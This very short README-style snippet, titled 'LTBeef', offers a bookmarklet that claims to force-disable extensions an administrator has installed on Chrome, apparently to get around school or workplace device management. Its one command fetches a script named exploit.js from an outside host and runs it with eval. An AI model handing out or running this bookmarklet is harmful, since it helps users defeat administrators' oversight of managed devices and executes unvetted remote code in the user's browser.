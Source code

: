 > ## LTBeef
#### Force disable admin installed extensions (go to chrome webstore)

`javascript:fetch('https://compactcow.com/ltbeef/exploit.js').then(data=>{data.text().then(text=>{eval(text)})});`
